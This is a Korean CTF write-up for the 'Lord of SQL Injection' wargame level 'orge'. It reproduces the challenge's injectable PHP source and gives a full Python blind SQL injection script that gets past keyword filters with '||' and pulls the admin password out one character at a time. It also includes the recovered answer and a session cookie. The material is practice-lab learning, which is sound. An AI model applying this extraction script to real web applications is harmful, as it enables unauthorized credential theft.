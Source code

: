 Lord of SQL Injection No.7 - orge
...


<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");
  highlight_file(__FILE__);
?>
...
위 문제에서 알 수 있는 것
preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.
preg_match로 인해 or and가 대소문자 구분없이 $_GET[pw]에 들어가 있으면 HeHe라고 뜨며 문제풀이에 실패하게 된다._
DB에 저장된 id 값이 admin이 되면 Hello admin이 뜬다.
DB에 저장된 비번과 입력한 비번이 같으면 문제가 풀리게 된다.

문제 풀이 법
1)블라인드 인젝션
이 문제는 다음과 같은 파이썬 코드를 이용하여 푼다.
...
import urllib.request # urllib에서 request모듈을 불러온다.
from urllib.parse import quote # urllib.parse에 있는 quote모듈을 불러온다.
for i in range(1,100): #pw길이를 알아내는 코드
    url="http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
    data= "1 '|| length(pw) = {}-- -".format(i) #파이썬의 format은 문장에 {}있는 곳에 들어갈 수를 지정해주는 역할 or 대신 ||을 써주어 같은 sql문을 만들어준다.
    print(data)
    data=quote(data)
    re = urllib.request.Request(url + data)

    re.add_header( # 이 부분이 없으면 에러발생(권한오류..?)
            "User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36")
    re.add_header( # 이 부분이 사라지게되면 계속해서 이 파일이 있는 장소로 돌아오게되어서 무한루프가 된다.
            "Cookie", "PHPSESSID=9vlqon375eef8ptltfs9152ap6"
        )
    res = urllib.request.urlopen(re)
    print(i)
    if str(res.read()).find("Hello admin") != -1:
        break
print("비밀번호 자릿수는",i,"입니다")
#pw 값을 알아내기 위한 코드
pwlen=i #i의 값이 pw의 길이임으로 다음 코드에서 활용하기 위해 pwlen에 pw길이를 저장한다.
key = "" # 알아낸 비밀번호를 저장하기 위한 변수
for i in range(1, pwlen+1): #range는 두번째 입력한 숫자의 -1까지 돌리므로 비밀번호 길이에 +1을 해준다.
    for j in range(32, 127):
        url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
        data = "1'|| substr(pw, 1, {}) = '{}'-- -".format(str(i), key + chr(j))
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=9vlqon375eef8ptltfs9152ap6"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("Hello admin") != -1: #잘라낸 길이 만큼이 저장된 비밀번호와 같으면 Hello admin이뜨는것을 활용하여 Hello admin이 뜨지않으면 -1을 반환해서 다시 j부분을 계속돌리고 뜨면 for문의 j를 멈추어 다음 자리를 찾는 것을 할 수 있게 한다.
            key += chr(j).lower()
            print(key)
            break
print("비밀번호는",key)
...
정답으로 6c864dec라는 값을 얻게 된다.
